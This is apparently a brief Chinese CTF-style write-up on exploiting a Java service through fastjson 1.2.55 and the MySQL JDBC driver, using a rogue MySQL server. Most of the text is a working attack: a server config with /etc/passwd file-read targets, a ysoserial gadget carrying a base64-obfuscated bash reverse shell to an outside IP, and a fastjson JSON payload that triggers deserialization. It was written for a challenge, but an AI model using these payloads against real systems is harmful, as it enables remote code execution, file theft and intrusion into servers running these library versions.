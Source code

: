 有log4j，尝试一些注入点，似乎没有什么用

还有fastjson，版本为1.2.55，以及jdbc

```xml
		<dependency>
			<groupId>com.alibaba</groupId>
			<artifactId>fastjson</artifactId>
			<version>1.2.55</version>
		</dependency>
		<dependency>
			<groupId>mysql</groupId>
			<artifactId>mysql-connector-java</artifactId>
			<version>5.1.30</version>
		</dependency>
```

可以通过fastjson配合jdbc来打

恶意mysql服务器

https://github.com/fnmsd/MySQL_Fake_Server

config.json

```json
{
    "config":{
        "ysoserialPath":"ysoserial-all.jar",
        "javaBinPath":"java",
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "Jdk7u21":["Jdk7u21","calc"],
        "CommonsCollections7":["CommonsCollections7","bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xODIuOTIuMTYxLjIyMi83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"]
    }
}

```

exp

```json
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "182.92.161.222", "portToConnectTo": 3306, "info": { "user": "CommonsCollections7", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```
